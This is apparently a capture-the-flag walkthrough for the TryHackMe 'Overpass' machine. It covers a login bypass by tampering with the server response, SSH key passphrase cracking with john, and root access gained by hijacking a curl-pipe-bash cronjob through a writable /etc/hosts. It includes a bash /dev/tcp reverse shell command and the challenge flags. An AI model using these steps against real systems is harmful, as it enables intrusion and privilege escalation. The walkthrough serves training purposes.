



# Overpass

## Description

What happens when a group of broke Computer Science students try to make a password manager?
Obviously a perfect commercial success!

# Initial Scan

We start with an Nmap scan and it reveals two open ports:
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
~~~

# Web

SSH service requiers creds, so let's head to the webpage. I ran `gobuster` and found a few directories:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Overpass]
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/ -x zip,txt,php,html  
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.186.26/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              zip,txt,php,html
[+] Timeout:                 10s
===============================================================
2021/10/14 01:40:38 Starting gobuster in directory enumeration mode
===============================================================
/404.html             (Status: 200) [Size: 782]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin.html           (Status: 200) [Size: 1525]            
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]    
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]      
/index.html           (Status: 301) [Size: 0] [--> ./]        
/index.html           (Status: 301) [Size: 0] [--> ./]
~~~

After taking a look at them, I found an interesting js file in `/admin` directory which is a login page for admins. You can find the file in `Debugger` section in inspect mode.

<p align="center"></p>

Let's take a look at the last function in `login.js`.

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

This part of the code is vulnerable because after sending the client's inputs to server, it grants or denies access depending on the server's response. Then it sets the cookie according to the respone. So if we intercept the response and change it to `"location: /admin"`, we bypass the login page.

## Login page bypass

To do so, follow the following steps:

First navigate to `/admin` and then start `burpsuite`. Then fill the inputs with something random and after intercepting the request, right click and choose `Do intercept` and then choose `Request to this request`. Now forward the request and now we can change the response. Now replcae the last line with `"location: /admin"` and forward the response.

<p align="center"></p>

Now refresh the page and we're in.

# Connecting to SSH

Right after logging in, we face a SSH private key and a message for user `james`.

<p align="center"></p>

We need to crack the password of the private key in order to login. I used an additional tool called `ssh2john` which changes the format of the SSH private key to a format which is crackable for `john`. Then cracked its password using `john` and `rockyou` wordlist.

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass/files]
└─$ locate ssh2john                                            
/usr/share/john/ssh2john.py
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass/files]
└─$ /usr/share/john/ssh2john.py priv.key > key.hash                     
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass/files]
└─$ john key.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (priv.key)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:04 DONE (2021-10-14 02:57) 0.2386g/s 3422Kp/s 3422Kc/s 3422KC/s *7¡Vamos!
Session completed
~~~

The password for the key is `james13`. Let's connect to SSH. First change the permission of the key to 600 because that's how private keys like to be treated. Then connect to SSH:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass/files]
└─$ chmod 600 priv.key
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass/files]
└─$ ssh -i priv.key james@$IP
Enter passphrase for key 'priv.key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Oct 14 07:09:32 UTC 2021

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.186.26
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ id
uid=1001(james) gid=1001(james) groups=1001(james)
~~~

## User Flag

We are logged in as user **"james"** and the user flag is in his home directory:

~~~
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
~~~

User flag: `thm{65c1aaf000506e56996822c6281e6bf7}`

# Going Root

Now we need to go root access in order to gain the root flag. We can't run `sudo -l` to see our permissions, so I started checking the files that might be useful. I found a cronjob in `/etc/crontab`:

~~~
james@overpass-prod:/tmp$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
~~~

This cronjob takes a bash script from a virtual host called **"overpass.thm"** and runs it. We can verify that it's a virtual host after checking `/etc/hosts`. Luckily this file is writable for us:

~~~
james@overpass-prod:/tmp$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
~~~

We can use this permission to change the IP of the virtual host to our IP and then create the same directory tree and replace the final script with a bash reverse shell and because the cronjob is being ran by root, we will gain a root shell.

First change the IP in front of "overpass.thm" in `/etc/hosts` to yours:

~~~
james@overpass-prod:/etc$ cat hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.9.0.223 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
~~~

Then create the same directories on your machine:
~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass/www]
└─$ mkdir downloads && cd downloads && mkdir src && cd src && touch buildscript.sh

┌──(user㉿Y0B01)-[~/…/Overpass/www/downloads/src]
└─$ echo "bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1" > buildscript.sh
~~~

Now we start a server where the directories start (www in my case), so when the target machine tries to connect to the virtual host, it connects to us and runs our script:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass/www]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

And finally we start a listener and wait:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Overpass]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

After waiting for a little while, we get a root shell:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Overpass]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.0.223] from (UNKNOWN) [10.10.186.26] 36172
bash: cannot set terminal process group (26273): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# id
uid=0(root) gid=0(root) groups=0(root)
root@overpass-prod:~# 
~~~

## Root flag

Now we can go to `/root` and read the root flag:

~~~
root@overpass-prod:~# cd /root
root@overpass-prod:~# ls
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
~~~

Root flag: `thm{7f336f8c359dbac18d54fdd64ea753bb}`

# D0N3!  ; )

Hope you had fun hacking!

Have a good one!  : )
